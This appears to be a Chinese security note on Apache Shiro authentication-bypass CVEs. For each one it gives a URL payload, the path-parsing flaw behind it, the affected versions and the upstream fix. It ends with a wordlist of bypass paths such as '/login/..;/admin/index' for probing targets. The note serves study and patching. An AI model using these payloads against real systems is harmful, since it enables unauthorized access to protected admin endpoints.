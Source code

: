# Shiro权限绕过

## CVE-2020-1957

**payload：/demo/..;/admin/index**

简单的说因为有；导致截取了分号前面，也就是我们这里的 /demo/.. 然后和 /demo/** 匹配上了。

然后成功绕过shiro，在spring层;被忽视，然后成功匹配路径。

### 环境搭建

```xml
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-web</artifactId>
    <version>1.5.1</version>
</dependency>
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-spring</artifactId>
    <version>1.5.1</version>
</dependency>
```

### 利用条件

- Apache Shiro <= 1.5.1

- Spring 框架中只使用 Shiro 鉴权

  

### 漏洞修复

https://github.com/apache/shiro/commit/3708d7907016bf2fa12691dff6ff0def1249b8ce#diff-98f7bc5c0391389e56531f8b3754081aR139

将原先的 request.getRequestURI() 替换成了 getContextPath() 、getServletPath() 、getPathInfo() 的组合，这样就能获取我们想要的了，从而避免因为获取差异性而导致绕过，这样就与返回给 springboot 的路径保持一致了。

修复了因为;导致的截断问题。

## CVE-2020-11989

[Apache Shiro权限绕过漏洞CVE-2020-11989分析](https://www.anquanke.com/post/id/222489)

**payload：/admin/%252fxxx**

漏洞产生的原因是因为 Spring 与 Shiro 之间对 url 的处理不同从而导致权限绕过.

简单的说就是shiro层进行了2次url解码，spring层使用了一次。

### 环境搭建

```xml
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-web</artifactId>
    <version>1.5.2</version>
</dependency>
<dependency>
    <groupId>org.apache.shiro</groupId>
    <artifactId>shiro-spring</artifactId>
    <version>1.5.2</version>
</dependency>
```

### 利用条件

- Apache Shiro <= 1.5.2
- Spring 框架中只使用 Shiro 鉴权

- 需要后端特定的格式才可进行触发

- 即：Shiro权限配置必须为 /xxxx/* ，同时后端逻辑必须是 /xxx/{variable} 且 variable 的类型必须是 String

### 漏洞修复

在 Shiro 1.5.3 版本中对getPathWithinApplication进行了修改，取消了url 解码的函数.



## CVE-2020-13933

**payload：/admin/%3Bxx**

简单的说就是url解码了之后如果存在；就截断前面的路径并且会将截断的uri最后的 / 进行去除,然后就匹配不到/admin/*,因为是/admin

所以我们只要利用 **/admin/%3Bxx**这样的结构就可以绕过 Shiro 的权限校验。

### 环境搭建

同CVE-2020-11989

pom.xml 中版本修改为1.5.3 

### 利用条件

- Apache Shiro < 1.6.0
- Spring 框架中只使用 Shiro 鉴权

- 需要后端特定的格式才可进行触发

- 即：Shiro权限配置必须为 /xxxx/* ，同时后端逻辑必须是 /xxx/{variable} 且 variable 的类型必须是 String

### 漏洞修复

https://github.com/apache/shiro/commit/dc194fc977ab6cfbf3c1ecb085e2bac5db14af6d

增加了 InvalidRequestFilter 类来对一些特殊情况进行处理，遇到特殊字符直接400，同时增加了 /** 的规则，来防止一些匹配不到的情况。

## CVE-2020-17523

**payload：/admin/%20**

简单的说就是我们传递/admin/%20 url解编之后在进行匹配的时候去除了空格，/admin/ 与/admin/*不匹配造成绕过。

### 漏洞环境

同 CVE-2020-11989 环境

pom.xml 中版本修改为 1.7.0 或及以下即可 

### 利用条件

- Apache Shiro < 1.7.1
- Spring 框架中只使用 Shiro 鉴权

- 需要后端特定的格式才可进行触发

- 即：Shiro权限配置必须为 /xxxx/* ，同时后端逻辑必须是 /xxx/{variable} 且 variable 的类型必须是 String

### 漏洞修复

增加了选项，tokenizeToStringArray 函数中默认不会进行 trim,默认情况下 token = token.trim() 并不会被执行


## CVE-2021-41303

![image](https://user-images.githubusercontent.com/63966847/133890465-dfbd4a6b-524d-4f5a-96d6-2b2dcb10e27f.png)

## 字典

```
/index/..;/admin/index
/login/..;/admin/index
/index/..;/admin/
/login/..;/admin/
/login/..;/json

/actuator/;/env/
/admin/;/xxx
/admin/%3b/xxx
/admin/%252fxxx
/admin/%3Bxx
/admin/%20
```

## CVE-2022-32532

[CVE-2022-32532](https://github.com/4ra1n/CVE-2022-32532)
原理参考[CVE-2022-22978 Spring Security RegexRequestMatcher 认证绕过及转发流程分析](https://xz.aliyun.com/t/11473)

>参考：
>
>https://www.yuque.com/tianxiadamutou/zcfd4v/emcdeq
